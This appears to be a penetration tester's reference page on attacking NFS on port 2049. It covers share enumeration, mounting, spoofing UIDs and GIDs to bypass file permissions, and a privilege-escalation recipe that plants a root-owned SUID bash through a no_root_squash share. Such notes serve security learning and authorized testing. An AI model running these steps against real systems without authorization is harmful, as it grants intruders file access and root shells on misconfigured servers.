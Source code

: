 # 2049 - NFS

## Theory

Network File System (NFS) is a distributed file system protocol originally developed by Sun Microsystems in 1984. It allows a user on a client computer to access files over a computer network as if they were on locally mounted storage.

NFS is often used with UNIX operating systems and is predominantly insecure in its implementation. It can be somewhat difficult to set up securely, so it is not uncommon to find NFS shares open to the world. This is quite convenient for us as penetration testers, as we might be able to exploit them to collect sensitive information, escalate our privileges, etc.

## Enumeration

### List NFS shares

```bash
showmount -e <IP>
```

This will show us the available shares. It can be something like this: `/ *` (the whole system), `/var/www/*` (everything in /var/www), etc.

### Scan NFS

```bash
nnmap --script='nfs-*' -p<PORT> <IP> -oN nfs_scan
```

### Set up an NFS

{% tabs %}
{% tab title="Methods" %}
```bash
mkdir /mnt/nfs # We create a directory.

# Ways of mounting:
mount -t nfs <IP>:<SHARE> /mnt/nfs
mount -t nfs <IP>:<SHARE> /mnt/nfs -o nolock # The "-o nolock", is to disable file locking, which is often necessary for older NFS servers.
mount <IP>:<SHARE> /mnt/nfs
mount -t nfs -o vers=3 <IP>:<SHARE> /mnt/nfs # NFS version 3

# At the end, we do:
umount /mnt/nfs
```
{% endtab %}

{% tab title="Troubleshooting" %}
If running `ls -l /mnt/nfs/<SHARE>` tells us "Permission Denied", this may be because the UID and GID are not the same (we can verify this with `stat /mnt/nfs/<SHARE>`) since the way NFS works with permissions is as follows: to access a locally mounted share, its uid and gid must match those of the shared directory on the server. Yes, that's it. Unfortunately, for "security" reasons, NFS 4 does not show the actual remote uid and gid, but those corresponding to the nobody user and group.

### Solution 1

If we have the ability to see the actual remote UID and GID of the mount owner, we can create a user and group with those same identifiers (remember that NFS 3 does show the UID and GID remotely, while NFS 4 does not):

```bash
# We create the group and user with their respective real identifiers:
groupadd --gid <GID> nfs4_group
useradd --uid <UID> --groups nfs4_group nfs4_user
sudo -u nfs4_user ls -l <SHARE>
sudo passwd nfs4_user # Assign a password.
su nfs4_user # Get a shell as that user.

# CleanUp:
sudo groupdel nfs4_group
sudo userdel nfs4_user
```

### Solution 2

Another solution is to use NfSpy, which essentially automates the above process (but spoofs the uid and gid instead of actually creating a user).

```bash
nfspy -o server=<IP>:<SHARE>,nfsport=2049/tcp,rw /mnt/nfs/
ls -l /mnt/nfs/
```

### Solution 3 (NFSShell)

To easily list, mount and change the UID and GID to access the files you can use [nfsshell](https://github.com/NetDirect/nfsshell). Good tutorial on [NFSShell](https://www.pentestpartners.com/security-blog/using-nfsshell-to-compromise-older-environments/).
{% endtab %}
{% endtabs %}

## Config files

```bash
/etc/exports
/etc/lib/nfs/etab
```

## Privilege Escalation

```bash
# Detection:
cat /etc/exports
/tmp *(rw,fsid=0,sync,no_root_squash,insecure)
```

If the file has the no\_root\_squash option and the directory we can mount has write permissions, then we can escalate privileges.

```bash
# On the compromised machine:
cp /bin/bash <SHARE>/bash
# On the attacker machine:
Mount NFS.
cd /mnt/nfs
sudo chown root:root bash
sudo chmod 4755 bash
# On the compromised machine:
/tmp/bash -p
```

### Troubleshooting

If you get an error similar to this one:

```bash
mount.nfs: mounting 127.0.0.1:/tmp failed, reason given by server: No such file or directory
```

It may be that it really has nothing to do with the directory, but that the NFS server needs an additional port that it is not finding. This usually happens when we are pivoting or port forwarding. An example would be the following:

* We perform a port forwarding of **2049** (NFS) and **111** (rpcinfo) and get the error shown above. To try to resolve this, we can use Wireshark and see what is going on:

{% hint style="warning" %}
We are going to capture packets from interface 127.0.0.1 (loopback), since we are tunneling traffic through there.
{% endhint %}

![](../.gitbook/assets/error\_mount\_nfs.png)

We see that our computer is trying to connect to the server on port 20048 but fails to receive a connection. This is because in the port forwarding we did not specify that particular port.
